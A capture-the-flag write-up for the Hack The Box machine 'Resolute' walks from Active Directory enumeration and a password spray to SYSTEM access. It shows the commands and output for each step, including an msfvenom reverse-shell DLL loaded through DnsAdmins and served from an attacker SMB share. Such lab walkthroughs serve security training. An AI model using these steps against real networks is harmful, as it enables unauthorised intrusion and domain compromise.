



_[<-- Back](https://flast101.github.io/HTB-writeups)_

# Resolute
## 1- Overview

      
Retire: 30 May 2020     
Writeup: 31 May 2020      

### Summary

**2- Enumeration**   
2.1- nmap scan   
2.2- Active Directory Enumeration   

**3- Exploitation**   
3.1- Bruteforcing Credentials   
3.2- Getting user.txt]   

**4- Privilege Escalation**   
4.1- Post-Compromise Enumeration   
4.2- New Account Enumeration   
4.3- Post-Compromise Exploitation

* * *
## 2- Enumeration
### 2.1- nmap scan
As usual, we begin with a nmap scan:
~~~
root@kali:~# nmap --reason -Pn -A --osscan-guess --version-all -p- 10.10.10.169

Nmap scan report for 10.10.10.169
Host is up, received user-set (0.065s latency).
Scanned at 2020-05-26 08:03:43 CEST for 161s
Not shown: 989 closed ports
Reason: 989 resets
PORT     STATE SERVICE      REASON          VERSION
53/tcp   open  domain?      syn-ack ttl 127
88/tcp   open  kerberos-sec syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2020-05-26 06:10:54Z)
135/tcp  open  msrpc        syn-ack ttl 127 Microsoft Windows RPC
139/tcp  open  netbios-ssn  syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp  open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds syn-ack ttl 127 Windows Server 2016 Standard 14393 microsoft-ds (workgroup: MEGABANK)
464/tcp  open  kpasswd5?    syn-ack ttl 127
593/tcp  open  ncacn_http   syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped   syn-ack ttl 127
3268/tcp open  ldap         syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: megabank.local, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped   syn-ack ttl 127
Service Info: Host: RESOLUTE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 2h26m59s, deviation: 4h02m30s, median: 6m58s
| p2p-conficker:
|   Checking for Conficker.C or higher...
|   Check 1 (port 41231/tcp): CLEAN (Couldn't connect)
|   Check 2 (port 52471/tcp): CLEAN (Couldn't connect)
|   Check 3 (port 55070/udp): CLEAN (Timeout)
|   Check 4 (port 26625/udp): CLEAN (Failed to receive data)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb-os-discovery:
|   OS: Windows Server 2016 Standard 14393 (Windows Server 2016 Standard 6.3)
|   Computer name: Resolute
|   NetBIOS computer name: RESOLUTE\x00
|   Domain name: megabank.local
|   Forest name: megabank.local
|   FQDN: Resolute.megabank.local
|_  System time: 2020-05-25T23:11:10-07:00
| smb-security-mode:
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: required
| smb2-security-mode:
|   2.02:
|_    Message signing enabled and required
| smb2-time:
|   date: 2020-05-26T06:11:12
|_  start_date: 2020-05-26T06:09:01

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue May 26 08:06:24 2020 -- 1 IP address (1 host up) scanned in 162.23 seconds
~~~

The important services we found here are : DNS, RPC, SMB, Kerberos, and LDAP.
There is obviously an Active Directory about which we already have information: the box is **resolute.megabank.local** and its domain name is **megabank.local**.

### 2.2- Active Directory Enumeration
Let's begin with using `ldapsearch` to grab general information:
~~~
root@kali:~# ldapsearch -h 10.10.10.169 -x -s base namingcontexts
# extended LDIF
#
# LDAPv3
# base <> (default) with scope baseObject
# filter: (objectclass=*)
# requesting: namingcontexts
#

#
dn:
namingContexts: DC=megabank,DC=local
namingContexts: CN=Configuration,DC=megabank,DC=local
namingContexts: CN=Schema,CN=Configuration,DC=megabank,DC=local
namingContexts: DC=DomainDnsZones,DC=megabank,DC=local
namingContexts: DC=ForestDnsZones,DC=megabank,DC=local

# search result
search: 2
result: 0 Success

# numResponses: 2
# numEntries: 1
~~~

Let's try to find more information about users if we can...

Using rpcclient, we can find a bunch of users :
~~~
root@kali:~# rpcclient -U "" 10.10.10.169
Enter WORKGROUP\'s password:
rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[DefaultAccount] rid:[0x1f7]
user:[ryan] rid:[0x451]
user:[marko] rid:[0x457]
user:[sunita] rid:[0x19c9]
user:[abigail] rid:[0x19ca]
user:[marcus] rid:[0x19cb]
user:[sally] rid:[0x19cc]
user:[fred] rid:[0x19cd]
user:[angela] rid:[0x19ce]
user:[felicia] rid:[0x19cf]
user:[gustavo] rid:[0x19d0]
user:[ulf] rid:[0x19d1]
user:[stevie] rid:[0x19d2]
user:[claire] rid:[0x19d3]
user:[paulo] rid:[0x19d4]
user:[steve] rid:[0x19d5]
user:[annette] rid:[0x19d6]
user:[annika] rid:[0x19d7]
user:[per] rid:[0x19d8]
user:[claude] rid:[0x19d9]
user:[melanie] rid:[0x2775]
user:[zach] rid:[0x2776]
user:[simon] rid:[0x2777]
user:[naoki] rid:[0x2778]
rpcclient $>
~~~

We can actually find more information with `enum4linux`, which gives us a very usefull hint about Marko Novak :
~~~
From Enum4linux :
=============================
|   Users on 10.10.10.169   |
=============================
...
index: 0x10a9 RID: 0x457 acb: 0x00000210 Account: marko	Name: Marko Novak
Desc: Account created. Password set to Welcome123!
...
~~~

We may have an account named "marko" with the password "Welcome123!".

* * *
## 3- Exploitation
### 3.1- Bruteforcing Credentials
However,  if we try to log in with these creds, it does not work. It must be a “welcome” password that has to be changed when the new user login. And he changed it. However, another user might have forgotten to change it and still has it active.

Let's make a user list “users.txt” and test it on the smb service :

~~~
root@kali:~# hydra -L users.txt -p Welcome123! smb://10.10.10.169
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-05-26 10:34:17
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 27 login tries (l:27/p:1), ~27 tries per task
[DATA] attacking smb://10.10.10.169:445/
[445][smb] host: 10.10.10.169   login: melanie   password: Welcome123!
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-05-26 10:34:20
~~~

And we have a winner ! :+1:   
User: melanie   
Password: Welcome123!

### 3.2- Getting user.txt
It may be possible now to get a shell on the target. We can use `Evil-WinRM` :

~~~
root@kali:~# evil-winrm -i 10.10.10.169 -u melanie -p Welcome123!

Evil-WinRM shell v2.3
Info: Establishing connection to remote endpoint
~~~

* * *
## 4- Privilege Escalation
### 4.1- Post-Compromise Enumeration

First, we must know who we are.

~~~
*Evil-WinRM* PS C:\Users\melanie\Documents> whoami /all

USER INFORMATION
----------------
User Name        SID
================ ===============================================
megabank\melanie S-1-5-21-1392959593-3013219662-3596683436-10101

GROUP INFORMATION
-----------------
Group Name                                 Type             SID          Attributes
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192

PRIVILEGES INFORMATION
----------------------
Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled

USER CLAIMS INFORMATION
-----------------------
User claims unknown.
Kerberos support for Dynamic Access Control on this device has been disabled.

~~~

The account is a standard low privleges Windows account.

At this point, there are many ways to enumerate Windows environement, especially as we have a domain controller with AD.   
We have to take a pause and look at what we can do and how we can enumerate the network.

If we don't find anything obvious looking around with basic enumeration, we should download tools and enumerate the network using `winPEAS`, `PowerView` and `Bloodhound`.

Howerver, if we first look around, a basic and quick overview allows to notice something :

~~~
*Evil-WinRM* PS C:\> dir -Force

    Directory: C:\

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--hs-        5/26/2020   4:44 AM                $RECYCLE.BIN
d--hsl        9/25/2019  10:17 AM                Documents and Settings
d-----        9/25/2019   6:19 AM                PerfLogs
d-r---        9/25/2019  12:39 PM                Program Files
d-----       11/20/2016   6:36 PM                Program Files (x86)
d--h--        5/26/2020   2:15 AM                ProgramData
d--h--        12/3/2019   6:32 AM                PSTranscripts
d--hs-        9/25/2019  10:17 AM                Recovery
d--hs-        9/25/2019   6:25 AM                System Volume Information
d-r---        12/4/2019   2:46 AM                Users
d-----        12/4/2019   5:15 AM                Windows
-arhs-       11/20/2016   5:59 PM         389408 bootmgr
-a-hs-        7/16/2016   6:10 AM              1 BOOTNXT
-a-hs-        5/25/2020  11:08 PM      402653184 pagefile.sys
~~~

There is an unusual directory named "PSTranscripts" that should be look at more closely.

~~~
*Evil-WinRM* PS C:\> cd PSTranscripts
*Evil-WinRM* PS C:\PSTranscripts> dir -Force

    Directory: C:\PSTranscripts

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d--h--        12/3/2019   6:45 AM                20191203

*Evil-WinRM* PS C:\PSTranscripts> cd 20191203
*Evil-WinRM* PS C:\PSTranscripts\20191203> dir -Force

    Directory: C:\PSTranscripts\20191203

Mode          LastWriteTime        Length Name
----          -------------        ------ ----
-arh--    12/3/2019   6:45 AM      3732 PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
~~~

Looking inside the file, we find some credentials:
~~~
*Evil-WinRM* PS C:\PSTranscripts\20191203> get-content PowerShell_transcript.RESOLUTE.OJuoBGhU.20191203063201.txt
...
**********************
Command start time: 20191203063515
**********************
PS>CommandInvocation(Invoke-Expression): "Invoke-Expression"
>> ParameterBinding(Invoke-Expression): name="Command"; value="cmd /c net use X: \\fs01\backups ryan Serv3r4Admin4cc123!
...
~~~

### 4.2- New Account Enumeration

Maybe Ryan's account has more privileges than Melanie's. We login as `ryan` using `Evil-WinRM` and try to figure this out:
~~~
*Evil-WinRM* PS C:\Users\ryan\Documents> whoami /groups

GROUP INFORMATION
-----------------

Group Name                                 Type             SID                                            Attributes
========================================== ================ ============================================== ===============================================================
Everyone                                   Well-known group S-1-1-0                                        Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554                                   Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580                                   Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2                                        Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11                                       Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15                                       Mandatory group, Enabled by default, Enabled group
MEGABANK\Contractors                       Group            S-1-5-21-1392959593-3013219662-3596683436-1103 Mandatory group, Enabled by default, Enabled group
MEGABANK\DnsAdmins                         Alias            S-1-5-21-1392959593-3013219662-3596683436-1101 Mandatory group, Enabled by default, Enabled group, Local Group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                    Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192

~~~

This time, we notice this account is member of MEGABANK\Contractors and MEGABANK\DnsAdmins.

Let's google what we can do from being a DNS Admin. We can find several links about how to escalate privileges. The most usefull links I found are :
- Windows Privilege Escalation: DNSAdmins to Domain Admins - Server Level DLL Injection: https://www.abhizer.com/windows-privilege-escalation-dnsadmin-to-domaincontroller/
- DNS Admin Privesc in Active Directory (AD)(Windows): https://medium.com/techzap/dns-admin-privesc-in-active-directory-ad-windows-ecc7ed5a21a2
- From DnsAdmins to SYSTEM to Domain Compromise: https://ired.team/offensive-security-experiments/active-directory-kerberos-abuse/from-dnsadmins-to-system-to-domain-compromise

### 4.3- Post-Compromise Exploitation

#### Plan
Now, the plan is :
1. Making a dll payload that sends a reverse shell back to our machine with `msfvenom`.
2. Making it available to the Windows machine. And, we will also set up a netcat listener to catch our reverse shell.
3. Importing that dll in the DNS Server.
4. Restarting the DNS Server so that it loads the dll file.

#### Warning
Executing this plan **will probably crash the DNS service:** using DLLs that do not conform to the plugin requirements is not stealthy and this type of activity probably will get picked up by defenders really quickly unless you can restore the DNS service immediately.
Of course, doing this in a CTF is fine, but think twice before doing anything in a real life assessment. Your customer might become stealthy when it comes to pay you, at least stealthier than you when exploiting his network.
[IppSec](https://www.hackthebox.eu/home/users/profile/3769) explains very well everything about the exploit and how to do to not crash the server [here](https://www.youtube.com/watch?v=8KJebvmd1Fk&t=3183s).

#### The payload
A classic reverse tcp shell will works fine:
~~~
root@kali:~# msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.23 LPORT=1234 --platform=windows -f dll > plugin.dll
~~~

#### Importing the DLL

If we download it on the target using `Invoke-WebRequest`, it gets nuked by the Anti-Virus. This is why we will serve a SMB share. `smbserver.py` from `Impacket` is very usefull to do so:
~~~
root@kali:~# smbserver.py exploit ./
~~~

On the target, we import the plugin with `dnscmd`:
~~~
*Evil-WinRM* PS C:\Users\all users\tmp> dnscmd resolute /config /serverlevelplugindll \\10.10.14.23\exploit\plugin.dll
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
~~~

In another terminal, we prepare a netcat listener to catch the reverse shell.

#### Restarting DNS
Now, we just have to stop and restart the DNS service.
~~~
*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute stop dns
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530

*Evil-WinRM* PS C:\Users\ryan\Documents> sc.exe \\resolute start dns
SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 2508
        FLAGS              :
~~~

#### Getting the shell
As we previously set up a listener on our Kali machine, it will catch up a shell when restarting the DNS:
~~~
root@kali:~# nc -nlvp 1234
Ncat: Version 7.80 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.10.10.169.
Ncat: Connection from 10.10.10.169:51786.
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system
~~~

Happy Hacking ! 

_[<-- Back](https://flast101.github.io/HTB-writeups)_
